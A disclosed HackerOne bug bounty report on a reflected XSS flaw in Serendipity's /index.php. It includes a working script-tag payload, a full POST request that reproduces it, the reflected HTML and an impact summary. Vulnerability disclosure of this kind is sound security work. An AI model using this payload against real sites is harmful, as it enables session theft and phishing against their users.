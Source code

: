 # Reflected xss in Serendipity's /index.php

## Report Details
- **Report ID**: 374100
- **URL**: https://hackerone.com/reports/374100
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-06-30T00:27:29.148Z
- **Disclosed**: 2018-11-09T21:03:03.465Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: hannob

## Vulnerability Information
**Summary:** 
There exists a reflected xss threat in https://blog.fuzzing-project.org/index.php?frontpage. 

**Description:**
By setting the `serendipity%5bmultiCat%5d%5b%5d` POST input to `1'"()&%<%20><ScRiPt >prompt(1)</ScRiPt>` I'm able to trigger a JavaScript prompt box in versions of IE up to and including IE 11.

## Steps To Reproduce:
This POST request should replicate the issue:

```
POST /index.php?frontpage HTTP/1.1
Content-Length: 118
Content-Type: application/x-www-form-urlencoded
Referer: https://blog.fuzzing-project.org/
Cookie: s9y_320982y345h324j56e04069=78uvbj9fk2u4jyh562u3j46jdt81tod; serendipity[url]=1; serendipity[name]=ltociaay; serendipity[email]=bugbountyspam%40protonmail.com; serendipity[remember]=checked%3D%22checked%22
Host: blog.fuzzing-project.org
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

serendipity%5bisMultiCat%5d=Go%21&serendipity%5bmultiCat%5d%5b%5d=1'%22()%26%25<%20><ScRiPt%20>prompt(1)</ScRiPt>
```
And here we can see that is reflected back to us in Serendipity's pagination block:
```
<nav class="serendipity_pagination block_level">
        <h2 class="visuallyhidden">Pagination</h2>

        <ul class="clearfix">
                        <li class="info"><span>Page 1 of 3, totaling 34 entries</span></li>
                        <li class="prev">&nbsp;</li>
            <li class="next"><a href="https://blog.fuzzing-project.org/categories/1\'\"()&%<%20><ScRiPt >prompt(1)</ScRiPt>-multi/P2.html">next page &rarr;</a></li>
        </ul>
    </nav
```

## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)

## Impact

Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."

In many cases, the attack can be launched without the victim even being aware of it. Even with careful users, attackers frequently use a variety of methods to encode the malicious portion of the attack, such as URL encoding or Unicode, so the request looks less suspicious.

## Attachments
No attachments
